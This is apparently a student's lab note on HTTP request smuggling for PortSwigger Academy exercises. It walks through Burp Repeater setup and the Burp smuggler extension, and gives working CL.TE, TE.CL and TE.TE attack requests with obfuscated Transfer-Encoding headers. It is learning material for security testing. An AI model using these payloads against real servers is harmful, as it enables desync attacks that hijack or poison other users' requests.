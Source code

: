 # Switch Burp Repeater to HTTP/1
Manually switch protocols in **Burp Repeater -> Inspector Panel -> Request attributes section**
# Performing the Attack
## Preparing Burp for Request Smuggling
1. Find request for root page and send to Repeater
2. Downgrade HTTP protocol to HTTP/1.1 (Inspector tab on right)
3. Change Request Method to POST by right-clicking
4. Disable automatic update of Content-Length (settings icon next to 'Send')
5. Show non-printable characters (option at top-right of Request section)
6. Send the request normally to ensure it is properly working

## Detecting the Vulnerability
![Pasted image 20250501090652.png](Cybersecurity/Cybersecurity/Screenshots/Pasted%20image%2020250501090652.png)
## Confirming the Vulnerability
![Pasted image 20250501090918.png](Cybersecurity/Cybersecurity/Screenshots/Pasted%20image%2020250501090918.png)
- Send the request twice, and the first should be status 200, and second status 403 forbidden
- Ensure there are two `\r\n` after the end of the second request
### CL.TE Example
```
POST / HTTP/1.1 
Host: host.website.here.com
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 6 
Transfer-Encoding: chunked 

0 

G
```
- Send it twice
- The second response should say: `Unrecognized method GPOST`.
### TE.CL Example
```
POST / HTTP/1.1

Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1

0


```
- Ensure `\r\n\` is showing twice after the final `0`
- Send it twice and the second response should say: `Unrecognized method GPOST`.
## TE.TE
There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space] Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-Encoding: chunked
Transfer-Encoding: cow
```
- Necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.
- Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated `Transfer-Encoding` header, the remainder of the attack will take the same form as for the CL.TE or TE.CL
- Ensure there are two `\r\n` after the `0` of the second request

Example Request to send a `GPOST` request:
```
POST / HTTP/1.1
Host: 0a9900a6047482318574918700b40052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
# Burp Smuggling Extension
For more advanced use watch the [video](https://portswigger.net/research/http-desync-attacks), and check out the [documentation](https://github.com/PortSwigger/http-request-smuggler).
1. Right click on a request and click 'Launch Smuggle probe'
2. Ensure 'permute: badsetupLF' is checked
3. Go to 'Target' tab of Burp (at the top)
4. Select the site you are querying
5. Go to the 'Contents' section of this site to see all requests
6. Go to the 'Issues' section to view any issues
7. Select 'Request 1' to see the issue with the first request
8. Right-click the request and select 'Smuggle attack'
9. A new window will pop up. If you scroll down, you'll see the `GET /hopefull404 HTTP/1.1` request
10. Select 'Attack' button at the bottom
11. Observe the 404 error, and a 200 status request previously with the payload in the data, click 'Halt' at the bottom to pause, then 'Configure' to exit
12. We can go back to the window where we saw the `GET` request section, and we can replace that with any other request we want
	- We can intercept other `GET` requests from other pages, go back to our smuggle request, and paste other `GET` requests into this section (only paste the `GET` and `HOST` section, and keep the `X-ignore` header when pasting)
13. We click 'Attack' again, and we can observe the request was successful